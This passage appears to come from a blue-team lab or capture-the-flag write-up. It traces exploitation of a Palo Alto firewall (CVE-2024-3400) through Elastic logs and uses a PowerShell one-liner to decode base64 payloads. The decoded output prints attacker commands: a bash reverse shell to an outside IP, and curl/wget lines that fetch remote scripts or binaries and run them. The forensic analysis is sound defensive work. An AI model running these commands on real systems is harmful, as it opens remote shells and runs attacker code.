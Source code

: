 This should yield us 101 hits, some hits being with a GUID for the session, which according to Palo Alto is expected behaviour. However, some of the hits contains something else than GUIDs, more specifically shell commands. The presence of [`poc.txt`](https://github.com/ihebski/CVE-2024-3400) and the base64 encoded shell commands are indicative of an exploit.

If we decode the first encoded command with [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4MU5DNHhOakl1TVRZMExqSXlMekV6TXpjZ01ENG1NUT09) we can see that the payload is `bash -i >& /dev/tcp/54.162.164.22/1337 0>&1`, an attempt to create a reverse shell. We could then submit this as the answer, but we need to determine the **first** threat actor gaining access, so we need to figure out if there are multiple people actively exploiting the device.

Let's narrow in on the commands that are based64 encoded
{% highlight sql %}
message:"failed to unmarshal" and message:"base64"
{% endhighlight %}

![Failed to unmarshal](/img/cd/blueyard/paloaltorce/failed_to_unmarshal_base64.png)

There are a significant number of hits. We can copy paste the payloads into CyberChef, or export the results to a csv we can process. I'm unaware of any functionality in Elastic that can  interpret the fields to our liking relatively easy. Click `Share`, `CSV Reports` and `Generate CSV` - it'll take a few seconds for it to be available in the Reporting panel.

I'm comfortable with using PowerShell, but you can obviously process the data in any way you like, python, excel, or whatever. I use a lot of shorthands when writing powershell.
Another thing to note, is that the `@timestamp` and `time` fields does not match.

{% highlight powershell %}
(Import-Csv 'Untitled discover search.csv').message -replace '^(\d+-?\s?:?)+' | ConvertFrom-Json | sort time | % { if ($_.message -match '\$\{IFS\}(\w.*)\|base64') { echo "$($_.time) $([Text.Encoding]::Utf8.GetString([Convert]::FromBase64String($Matches[1])))"} }

2024-04-21T22:20:27.581852267-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-23T21:44:36.042848508-07:00 (curl%20-s%20-L%20http://138.197.162.79:65534/0dzFrRzQ.sh%7Cbash%20-s
2024-04-23T22:49:06.667819145-07:00 wget -qO /var/tmp/BYhkpzVZP http://185.196.9.31:8080/ZvfhsodEot2FHKdyoKI6_w; chmod +x /var/tmp/BYhkpzVZP; /var/tmp/BYhkpzVZP &
2024-04-23T22:49:07.082856042-07:00 wget -qO /var/tmp/BYhkpzVZP http://185.196.9.31:8080/ZvfhsodEot2FHKdyoKI6_w; chmod +x /var/tmp/BYhkpzVZP; /var/tmp/BYhkpzVZP &
2024-04-24T19:48:14.998901848-07:00
2024-04-24T20:22:19.142921243-07:00 wget%20-q%20-O%20-%20http://138.197.162.79:65534/0dzFrRzQ.sh%7Cbash%20-s